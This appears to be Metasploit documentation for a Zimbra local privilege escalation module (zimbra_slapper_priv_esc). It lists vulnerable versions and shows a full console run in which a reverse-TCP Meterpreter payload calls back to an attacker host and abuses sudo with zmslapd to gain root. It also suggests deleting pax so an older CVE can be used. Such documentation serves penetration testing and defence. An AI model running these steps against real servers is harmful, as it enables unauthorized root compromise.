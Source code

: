 ## Vulnerable Application

The following versions of Zimbra are vulnerable:

* Zimbra Collaboration Suite 9.0.0 Patch 26 and earlier
* Zimbra Collaboration Suite 8.8.15 Patch 33 and earlier

## Verification Steps

Install Zimbra on any supported Linux version and get a session as the `zimbra`
user. The easiest way to exploit zimbra is to `rm $(which pax)`, reboot, and
use CVE-2022-41352. Or generate a Meterpreter payload with `msfvenom` and run
it.

From there:

```
msf exploit(linux/fileformat/unrar_cve_2022_30333) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                  Connection
  --  ----  ----                   -----------                  ----------
  10        meterpreter x86/linux  zimbra @ zimbra.example.org  10.0.0.146:4444 -> 10.0.0.154:39800 (10.0.0.154)

msf exploit(linux/fileformat/unrar_cve_2022_30333) > use exploit/linux/local/zimbra_slapper_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/zimbra_slapper_priv_esc) > set SESSION 10
SESSION => 10
msf exploit(linux/local/zimbra_slapper_priv_esc) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Executing: sudo -n -l
[+] The target is vulnerable.
[*] Creating exploit directory: /tmp/.5kq9XO
[*] Attempting to trigger payload: sudo /opt/zimbra/libexec/zmslapd -u root -g root -f /tmp/.5kq9XO/.1wNk1h3
[*] Sending stage (3020772 bytes) to 10.0.0.154
[+] Deleted /tmp/.5kq9XO
[*] Meterpreter session 13 opened (10.0.0.146:4444 -> 10.0.0.154:40044) at 2022-07-21 14:04:12 -0700

meterpreter > getuid
Server username: root
```

## Options

### SUDO_PATH

The path to `sudo` on the host. If we have a proper environment with `$PATH` set, which we generally do, simply `sudo` is fine.

### ZIMBRA_BASE

The base where Zimbra is installed. Zimbra typically installs to `/opt/zimbra`, and I'm not even sure if it _can_ install elsewhere, so this default should be fine.
